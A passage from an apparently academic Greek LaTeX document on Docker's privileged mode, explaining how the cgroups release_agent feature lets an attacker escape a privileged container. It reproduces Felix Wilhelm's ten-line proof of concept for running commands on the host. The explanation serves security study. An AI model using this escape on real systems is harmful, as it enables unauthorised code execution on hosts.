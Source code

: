 Το \textlatin{Docker} έχει μια ειδική προνομιακή λειτουργία
\cite{Docker-in-Docker-Blog}. Αυτή η λειτουργία είναι ενεργοποιημένη εάν κατά
την δημιουργία ενός κοντέινερ δοθεί η παράμετρος
\texttt{\textlatin{--privileged}} η οποία επιτρέπει τη πρόσβαση σε όλους τους
κεντρικούς υπολογιστές συσκευές και σε δυνατότητες του πυρήνα. Αυτή είναι μια
ισχυρή λειτουργία που επιτρέπει ορισμένες χρήσιμες λειτουργίες (π.χ. δημιουργία
εικόνων \textlatin{Docke} μέσα σε κοντέινερ \textlatin{Docker}). Το μειονέκτημα
της προνομιακής λειτουργίας είναι ότι όλες οι λειτουργίες του πυρήνα επιτρέπουν
σε ένα επιτιθέμενο μέσα στο κοντέινερ να διαφύγει και να αποκτήσει πρόσβαση
στον κεντρικό υπολογιστή.

Ένα παράδειγμα αυτού είναι η κατάχρηση ενός χαρακτηριστικού στα
\texttt{\textlatin{cgroups}} \cite{CGroup-Docs}. Όποτε ένα 
\texttt{\textlatin{cgroup}} απελευθερώνεται λόγω απουσίας διεργασιών που
τρέχουν, είναι δυνατό για να εκτελέσουμε μια εντολή (που ονομάζεται
\textlatin{release\_agent}). Είναι δυνατόν να ορίσουμε τέτοια
\textlatin{release\_agent} σε ένα προνομιακό \textlatin{docker}.
Εάν το \texttt{\textlatin{cgroup}} απελευθερωθεί, τότε
η εντολή εκτελείται στον κεντρικό υπολογιστή \cite{TrailOfBits-Docker-Escape}.

Μπορούμε να δούμε μια απόδειξη της ιδέας αυτής της επίθεσης που αναπτύχθηκε από
τον ερευνητή ασφαλείας Felix Wilhelm \cite{Felix-Wilhem-Tweet}. \\

\texttt{\textlatin{1. (host)\$ docker run -it --rm --privileged ubuntu:latest bash}}

\texttt{\textlatin{2. (cont)\# d=`dirname \$(ls -x /s*/fs/c*/*/r* |head -n1)`}}

\texttt{\textlatin{3. (cont)\# mkdir -p \$d/w}}

\texttt{\textlatin{4. (cont)\# echo 1 >\$d/w/notify\_on\_release}}

\texttt{\textlatin{5. (cont)\# t=`sed -n 's/.*\textbackslash perdir=\textbackslash ([\^,]*\textbackslash ).*/\textbackslash 1/p' /etc/mtab`}}

\texttt{\textlatin{6. (cont)\# touch /o}}

\texttt{\textlatin{7. (cont)\# echo \$t/c >\$d/release\_agent}}

\texttt{\textlatin{8. (cont)\# printf '\#!/bin/sh\textbackslash nps >'"\$t/o" >/c}}

\texttt{\textlatin{9. (cont)\# chmod +x /c}}

\texttt{\textlatin{10. (cont)\# sh -c "echo 0 >\$d/w/cgroup.procs"}}

